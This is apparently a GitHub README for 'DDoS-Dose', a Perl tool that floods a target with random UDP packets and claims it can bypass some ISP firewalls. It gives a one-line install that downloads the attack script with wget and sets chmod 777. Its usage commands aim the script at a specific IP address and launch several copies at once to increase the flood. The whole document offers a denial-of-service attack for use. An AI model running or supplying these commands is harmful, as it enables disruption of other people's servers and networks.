 # Script for DDoS-Dose !

## Features

- Generate Random UDP Traffic
- To Random Port & from Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- Spoofed: No

## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp%20%7C%20ID%3AA3/random-udp.pl && chmod 777 *

```
## Usage

```
perl random-udp.pl 162.241.27.65
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65
---> Multithreading Causing Issue
```
```
- This script pre-configured to send traffic to random port, (Line8) Can be Changed & from random port (Line9)
- This script pre-configured to send random packet size, (Line68), Can be changed!
- Can adjust time by "timeout 30" command,
```

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in

